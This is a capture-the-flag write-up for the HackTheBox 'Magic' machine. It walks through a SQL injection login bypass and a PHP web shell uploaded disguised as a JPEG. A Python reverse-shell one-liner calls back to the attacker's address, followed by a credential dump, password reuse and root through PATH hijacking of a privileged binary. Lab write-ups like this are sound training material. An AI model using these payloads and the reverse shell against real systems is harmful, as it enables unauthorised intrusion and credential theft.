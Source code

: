 ```yaml
---
title: Magic Writeup
author: mooncakeza
date: 2020-04-20 11:30am
categories: [hackthebox]
tags: [hackthebox, writeup]
math: true
image: /assets/img/htb/Magic/magic_infocard.PNG
---
```


<p>Let's do an NMAP scan</p>

<img src="/assets/img/htb/Magic/01_nmap.png">

<p>
Browsing to http://10.10.10.185 we get a page with images and on the bottom left a login to upload images
</p>

<img src="/assets/img/htb/Magic/02_login_message.png">

<p>
We click login
</p>

<img src="/assets/img/htb/Magic/03_login_blank.png">

<p>
I tried the default username and password combos but nothing.
Since we have no credentials to try, we can try SQL injection

username: ‘or ’1'='1
password: ‘or ’1'='1
</p>

<img src="/assets/img/htb/Magic/03_login_sql.png">

<img src="/assets/img/htb/Magic/05_upload_img.png">

<p>

Seems we can upload images. Let's see what can be uploaded. Let's just click upload.

</p>

<img src="/assets/img/htb/Magic/06_upload_img_error.png">

<p>

Only JPG, JPEG and PNG files are allowed.
Let's go for the bypassing the filter.

Let's upload a file and see where it saves it to.
It uploads it to the front page on the slider and when you right click to view image we can see it saves it under http://10.10.10.185/images/uploads/

Now let's do some magic

Take any JPG,JPEG or PNG inject it with some code and then rename the file.

</p>

<img src="/assets/img/htb/Magic/07_cmd_image_insert.png">

<p>

Upload this file via the upload page

In another terminal run nc -lvnp 9991

The only payload I found to work was the python method

Now point your browser or use curl to the following URL

http://10.10.10.185/images/uploads/lordcommander.php.jpeg?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.31",9991));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);

</p>


<img src="/assets/img/htb/Magic/08_img_rev_shell.png">

<p>

We have a shell!

Let's get an interactive shell

<p>

<ol><li>python -c 'import pty; pty.spawn("/bin/bash")'</li><li>ctrl + z (put's the nc into the background)</li><li>echo $TERM (this gets what your term is set as)</li><li>stty -a (this gets your windows size)</li><li>stty raw -echo (NOTE: you will not see any output after this)</li><li>fg (go back to the nc)</li><li>reset (this resets the terminal settings on the remote machine</li><li>In the Terminal type, type in the $TERM output you got, in my case it was xterm-256color. </li></ol>

</p>

<p>

After enumerating a bit we get the following:

</p>

<img src="/assets/img/htb/Magic/09_db_details.png">

<p>

I tried to use the password to login via ssh and su but both failed.
This is not the password.

Let's enumumerate the database. There is no mysql client installed so the only way now is to do a mysqldump.

</p>

<img src="/assets/img/htb/Magic/10_db_dump.png">

<p>

We then find this in the dump: 

</p>

<img src="/assets/img/htb/Magic/11_db_creds.png">

<p>

We have some creds. Password reuse?
let us just su to the user with the password.

</p>


<img src="/assets/img/htb/Magic/12_user_login_png.png">

<p>

user flag achieved!

Now for root.

We first have to upload some enumerating scripts.
I uploaded both LinEnum or LinPEAS and found this pretty interesting:

</p>

<img src="/assets/img/htb/Magic/13_exec_files.png">

<p> 

/bin/sysinfo is executable and the user group has permissions to run it.

There is another tool called pspy64 which monitors linux processes and we can use this to see what it does in the background. So we run /bin/sysinfo and monitor pspy and see the following.

</p>

<img src="/assets/img/htb/Magic/14_fdisk.png">

<p>

sysinfo calls a few files and seems like we can inject our own path to a custom fdisk file to maybe create a reverse shell?

First in another terminal run our nc -lvnp 9994 

Back to the magic terminical and let us add /tmp into the system PATH

export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/bin:/usr/games:/usr/local/games:/snap/bin:/tmp

We then create a file in /tmp with the following.

</p>

<img src="/assets/img/htb/Magic/15_python_shell.png">

<p>

Make it executable and then run /bin/sysinfo again and we watch pspy64 again.

</p>

<img src="/assets/img/htb/Magic/16_run_script.png">

<p>

You can see it has now executed our code from the fstab in the /tmp directory instead of the actually operating system's fstab!

Let us pop to the terminal where we can our netcat.

</p>

<img src="/assets/img/htb/Magic/17_shell_pop.png">

<p>

WE HAVE ROOT!

</p>
